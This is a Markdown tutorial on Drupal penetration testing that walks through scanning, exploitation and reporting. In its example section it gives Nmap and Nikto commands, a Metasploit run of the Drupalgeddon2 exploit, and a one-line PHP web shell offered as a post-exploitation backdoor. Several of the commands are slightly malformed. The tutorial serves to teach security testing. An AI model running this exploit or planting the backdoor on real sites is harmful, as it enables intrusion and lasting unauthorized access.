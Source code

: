 # Drupal pentesting


# 👉 Overview

---

### 👀 What ?

Drupal pentesting, also known as penetration testing, refers to the process of testing a Drupal website to identify any vulnerabilities that could potentially be exploited by hackers. It is an essential practice in cybersecurity to ensure the security of a website.


### 🧐 Why ?

Drupal pentesting is crucial as it allows developers and security professionals to discover and fix vulnerabilities before they can be exploited by attackers. By conducting pentesting, organizations can protect sensitive data and maintain the trust of their users.


### ⛏️ How ?

To conduct Drupal pentesting, you can follow these steps: 1. Information Gathering: Collect as much information as possible about the target Drupal website. 2. Scanning: Use tools like Nmap or Nessus to scan the target for open ports and services. 3. Vulnerability Assessment: Use tools like OpenVAS or Nexpose to identify vulnerabilities. 4. Exploitation: Use tools like Metasploit to exploit identified vulnerabilities. 5. Post-Exploitation: Determine the value of the compromised system and maintain access for later use. 6. Reporting: Document the findings and provide recommendations for improvement.


### ⏳ When ?

Drupal pentesting should be conducted regularly, especially when any changes or updates have been made to the website. It's also highly recommended before launching a new website.


# ⚙️ Technical Explanations

---

Drupal penetration testing, often referred to as Drupal pentesting, is a comprehensive process with the goal of identifying any vulnerabilities in a Drupal website that could potentially be exploited by attackers. This is a crucial practice in cybersecurity as it allows for the discovery and remediation of vulnerabilities before they can be leveraged by malicious parties.

The process begins with **Information Gathering**, where as much data as possible about the target website is collected. This includes identifying the Drupal version being used, the themes and modules installed, and user information. Understanding the target's configuration and setup is a crucial first step in identifying possible vulnerabilities.

The next phase is **Scanning**, where tools like Nmap or Nessus are utilized to identify any open ports or services on the target system. This step can uncover potential entry points for an attacker.

After scanning, the **Vulnerability Assessment** phase starts. This involves the identification of potential vulnerabilities that could be exploited. Tools such as OpenVAS or Nexpose can be used to automate this process and provide a comprehensive list of vulnerabilities.

Following the identification of vulnerabilities, the **Exploitation** phase begins where these vulnerabilities are actually exploited using tools like Metasploit. This step involves leveraging identified vulnerabilities to gain unauthorized access or data from the system.

In the **Post-Exploitation** phase, the value of the compromised system is determined, and attempts are made to maintain access for later use. This could involve creating backdoors or disabling security measures to ensure future access.

The final step is **Reporting**, where all the findings are documented, including all identified and exploited vulnerabilities, along with any accessed data. Recommendations for improving the system's security are also provided at this stage. This report can then be used by the website's administrators or developers to improve the security measures in place.

This process should be conducted regularly, especially after any changes or updates to the website. It's also highly recommended before launching a new website to ensure its security from the get-go.

Let's take an example of Drupal pentesting using some commonly used tools:

**1. Information Gathering:**

We can use a tool like `Droopescan` to gather information about the target Drupal site. It can identify the version, themes, and modules.

```bash
droopescan scan drupal -u <http://targetsite.com

```

This command scans the target Drupal site and provides information about its version, installed themes, and modules.

**2. Scanning:**

We can use a tool like `Nmap` to scan the target for open ports and services.

```bash
nmap -p 1-65535 -T4 -A -v <http://targetsite.com

```

This command scans all ports (1-65535) on the target website and provides detailed information about any open ports and services.

**3. Vulnerability Assessment:**

We can use a tool like `Nikto` to identify vulnerabilities.

```bash
nikto -h <http://targetsite.com

```

This scans the target website and provides a list of potential vulnerabilities.

**4. Exploitation:**

We can use a tool like `Metasploit` to exploit identified vulnerabilities.

```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOST <http://targetsite.com
run

```

This command opens Metasploit, sets the exploit to `drupal_drupalgeddon2` (a known Drupal vulnerability), sets the target site, and runs the exploit.

**5. Post-Exploitation:**

After successful exploitation, we might create a backdoor for later access.

```bash
echo '<?php echo shell_exec($_GET['cmd']); ?' shell.php

```

This creates a simple PHP backdoor that allows for remote command execution.

**6. Reporting:**

All findings, including exploited vulnerabilities and accessed data, are documented. This report can be used by the website's administrators or developers to improve the security measures in place.

Remember, this is an educational example and should not be used for malicious purposes. Always have permission before conducting any penetration testing.
